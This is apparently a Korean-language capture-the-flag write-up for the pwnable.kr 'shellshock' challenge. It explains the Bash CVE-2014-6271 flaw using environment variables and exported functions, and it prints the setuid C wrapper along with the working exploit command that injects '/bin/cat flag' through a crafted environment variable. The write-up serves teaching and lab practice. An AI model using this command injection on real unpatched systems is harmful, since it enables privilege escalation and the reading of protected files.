```yaml
---
title: "pwnable.kr - Toddler's bottle #9 shellshock"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #9 shellshock 문제 풀이

Shellshock 라는 CVE-2014-6271를 사용하는 문제이다
Bash shell에 40년동안 존재해온 취약점이라고 한다. ㅎㄷㄷ

Bash는 환경변수를 만들수 있다
~~~
shellshock@pwnable:~$ zxcv=333
shellshock@pwnable:~$ echo $zxcv
333
shellshock@pwnable:~$ env | grep zxcv
shellshock@pwnable:~$
~~~

그런데 위와 같이 하면 local variable로 세팅되서 현재 bash에서만 사용할 수 있다. 그래서 env명령에서도 안나온다

sub-process에서도 해당 variable을 사용하게 하려면 export를 사용해야 한다

~~~
shellshock@pwnable:~$ export zxcv=333
shellshock@pwnable:~$ echo $zxcv
333
shellshock@pwnable:~$ env | grep zxcv
zxcv=333
shellshock@pwnable:~$ bash
shellshock@pwnable:~$ echo $zxcv
333
shellshock@pwnable:~$ exit
exit
shellshock@pwnable:~$
~~~

bash는 환경변수로 함수를 만들 수도 있다 이런식으로
~~~
shellshock@pwnable:~$ foo() { echo hello; }
shellshock@pwnable:~$ foo
hello
~~~

함수를 만들때는 스페이스바를 잘 넣어야 한다 (bracket 주의)
~~~
shellshock@pwnable:~$ foo() {echo hello;}
-bash: syntax error near unexpected token `{echo'
~~~

Bash의 동작 순서는 이렇다 (https://operatingsystems.tistory.com/entry/Shellshock-CVE20146271)
~~~
# Bash Process 동작 순서
a. Bash 실행
b. Bash 환경변수 초기화
c. Bash shell prompt 출력
d. 명령어 기다림
e. (명령어를 수행할 경우) 명령어를 문자열로 저장하여 해당 문자열 parsing 수행
f. parsing된 구조체를 이용하여 명령어 수행
~~~

CVE-2014-6271 은 b. Bash 환경변수 초기화에 있는 문제이다

아래와 같이 넣었을때 vulnerable이라고 뜨면 그 bash는 취약한 것이다
~~~
​env x='() { :;}; echo vulnerable' bash -c "echo test"
~~~

저게 원래 해야 하는 일은 x에 '() { :;}; echo vulnerable' string을 넣고 난 다음 env에 x가 등록된 환경에서 bash -c "echo test" 하는거다. 정상적인 용례는 이렇다

~~~
vmware@ubuntu:~$ env zxcv='9999' bash -c "env | grep zxcv"
zxcv=9999
vmware@ubuntu:~$ env | grep zxcv

vmware@ubuntu:~$
~~~

참고로 `env | grep zxcv` 안하고 그냥 echo zxcv 하면 아무것도 안뜬다... 왜냐하면 shell은 getenv/setenv/putenv 잘 안쓰고 자기들이 자체적으로 가져오기 때문이다. 안에서도 제대로 가져오도록 하려면 export로 등록해야 한다

변수로 등록했는데 함수처럼 쓸수 있다. 다시 말해 export로 등록했는데 함수처럼 쓸수 있다. 그래서 이런게 가능하다

다시 이걸로 돌아와서
~~~
​env x='() { :;}; echo vulnerable' bash -c "echo test"
~~~

취약한 shell은 이렇게 뜬다
~~~
shellshock@pwnable:~$ env x='() { :;}; echo vulnerable' ./bash -c "echo test"
vulnerable
test
~~~
./bash 한 이유는 shellshock의 local에 있는 bash만 vulnerable 하니까...
vulnerable은 parent shell이 아니라 ./bash -c로 실행된 child bash에서 실행된거다. 다시 말해 bash가 뜨자마자 echo vulnerable을 해주고 나서 echo test해 준 것이다

**취약점의 핵심은 이와 같이 변수로 지정된 환경변수가 shell실행시 함수로 해석되어 초기화 될때 실행이 된다는 점이다**

env help를 보면 이렇게 되어 있다
~~~
shellshock@pwnable:~$ env --help
Usage: env [OPTION]... [-] [NAME=VALUE]... [COMMAND [ARG]...]
Set each NAME to VALUE in the environment and run COMMAND.

Mandatory arguments to long options are mandatory for short options too.
  -i, --ignore-environment  start with an empty environment
  -0, --null           end each output line with NUL, not newline
  -u, --unset=NAME     remove variable from the environment
      --help     display this help and exit
      --version  output version information and exit

A mere - implies -i.  If no COMMAND, print the resulting environment.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/env>
or available locally via: info '(coreutils) env invocation'
~~~

그러므로 
~~~
env x='() { :;}; /bin/cat flag' ./shellshock
~~~

이렇게 하면 환경변수 x에 '() { :;}; /bin/cat flag' 이 저장되는데, 이 환경변수를 가지고 실행되는 bash는 이것을 함수로 해석하여 초기화 할때 실행시켜준다.

shellshock를 보면 이렇게 생겼다
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

즉 bash 실행시 초기화 과정에서 함수로 실행될 취약점이 있는 상태에서, 고맙게도 setresuid, setresgid하고 system을 통해 "/home/shellshock/bash -c 'echo shock_me'" 를 해 주는거다.

요점은 취약점을 공략하는 환경변수가 등록된 채 setgid를 걸고 bash를 실행시킨다는 것

결과는 이렇다
~~~
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
<tag output>
Segmentation fault (core dumped)
~~~

Segmentation fault가 왜 나는지는 잘 모르겠다...

[pwnable.kr]: https://pwnable.kr

<!-- only if I knew CVE-2014-6271 ten years ago..!! -->